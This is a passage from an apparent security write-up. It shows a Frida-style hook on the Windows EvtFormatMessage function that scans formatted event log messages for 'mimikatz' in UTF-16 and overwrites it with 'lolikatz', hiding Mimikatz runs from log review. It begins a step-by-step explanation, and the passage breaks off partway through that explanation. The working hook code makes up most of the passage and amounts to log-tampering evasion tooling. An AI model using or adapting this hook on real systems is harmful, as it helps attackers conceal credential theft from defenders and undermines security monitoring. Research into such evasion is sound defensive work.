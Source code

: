 With some debugging and a healthy dose of swearing and stackoverflow, we managed to hook the `EvtFormatMessage` message and change the results to mask Mimikatz excution with `lolikatz`:

```

/*
BOOL EvtFormatMessage(
  EVT_HANDLE   PublisherMetadata,
  EVT_HANDLE   Event,
  DWORD        MessageId,
  DWORD        ValueCount,
  PEVT_VARIANT Values,
  DWORD        Flags,
  DWORD        BufferSize,
  LPWSTR       Buffer,
  PDWORD       BufferUsed
);

*/
{

  onEnter: function (log, args, state) {
    this.ptr = args[7];
    this.size = args[6].toInt32();

  },
  onLeave: function (log, retval, state) {
    var pattern = "6d 00 69 00 6d 00 69 00 6b 00 61 00 74 00 7a 00"; //mimikatz in UTF-16
            var res = Memory.scanSync(
                this.ptr,
                this.size,
                pattern
            );
            res.forEach(function(f){
                send("Patching: " + f.address);
                Memory.protect(f.address, 16, "rwx");
                f.address.writeByteArray([0x6c,0x00,0x6f,0x00,0x6c,0x00,0x69,0x00,0x6b,0x00,0x61,0x00,0x74,0x00,0x7a,0x00])
            });

    //log(hexdump(this.ptr, {length: this.size}));
  }
}

```

Let's break down the script piece by piece.

On the first part, we extract thee arguments we're going to need for our analysis. The 7th and 8th arguments are respectively the pointer to the string that will be populated with the formatted event and the size of the event itself:
```
onEnter: function (log, args, state) {
  this.ptr = args[7];
  this.size = args[6].toInt32();

},
```
